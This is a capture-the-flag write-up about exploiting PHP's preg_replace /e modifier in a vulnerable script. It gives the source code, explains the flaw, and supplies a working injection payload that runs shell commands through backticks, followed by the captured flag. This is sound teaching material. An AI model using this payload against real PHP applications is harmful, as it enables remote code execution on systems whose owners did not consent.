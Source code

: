 
# Injection via /e modifier 
This level confronts us with PHP, we will Exploit a vulnerability on the ***/e modifier***.
The source code of the executable :

```php
#!/usr/bin/php
<?php
function y($m)
{
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z)
{
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

Two functions are present, two arguments are passed in parameters, for my part I did not have to use a second arg, nor the logic of the function `y` except the return.

Therefore we will put all the attention on this line :
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

<u> Important : </ul>

 1. `/(\[x (.*)\])/e`: This is a pattern in the form of `[x ...]` where `...` can be any characters. The pattern captures everything between `[x` and `]`. The `/e` at the end means the replacement will be treated as PHP code.
 2. `"y(\"\\2\")"`: This is what replaces the matched pattern. It calls a function `y()` with the second content captured in the pattern as an argument. The point 2  refers to the content captured by the second capture group in 
the regular expression. In the pattern of the regular expression, the second capture group corresponds to `(.*)`, which captures any sequence of characters.
 3. `$a`: This is the **\$subject** string.

<u> I’ll let you check : </ul> 

[https://www.php.net/manual/en/function.preg-replace.php](https://www.php.net/manual/en/function.preg-replace.php)
[https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)

Now that you understand that the modifier e allows you to inject code into the program, the goal will be to match the **\$pattern** so that a function is evaluated at the time of the **\$replacement**.

Create a **`/tmp/evalphp`**.

In PHP, braces allow you to evaluate PHP code, and backticks are used to encapsulate a shell command or statement that must be executed by the operating system.

```bash
ALotOfVuln [x {${`getflag`}}]
# OR
ALotOfVuln [x {${`getflag > /tmp/flag.txt`}}]
```

![enter image description here](https://i.imgur.com/5qihi81.png)

> Flag : wiok45aaoguiboiki2tuin6ub
